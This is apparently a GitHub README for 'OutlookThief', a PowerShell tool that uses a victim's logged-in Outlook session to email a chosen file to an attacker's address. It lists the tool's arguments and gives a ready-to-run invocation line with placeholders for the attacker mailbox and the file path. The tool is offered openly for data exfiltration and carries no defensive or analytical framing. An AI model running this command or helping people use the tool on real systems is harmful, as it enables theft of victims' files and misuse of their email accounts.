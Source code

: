 # OutlookThief
A tool to abuse the current opened session of outlook to exfilitrate data through it.

# Usage
```
[+] OutlookThief
[*] By: Zeyad Azima
[*] Github: https://github.com/Zeyad-Azima/OutlookThief

[*] Help:
The tool simply abuses the logged-in user through outlook to send email that has the targeted data to Exfiltrate it to the attacker side.

[*] Arguments:
  -help            : Display the help message
  -mailTo          : The attacker/recipient email
  -attachmentPath  : The file path to exfiltrate
  -subject         : The email Subject
  -bodyContent     : The email body content
```
### Invoke
```
.\OutlookThief.ps1 -mailTo "attacker_mail" -attachmentPath "file_path" -subject "Subject" -bodyContent "Body Content"
```
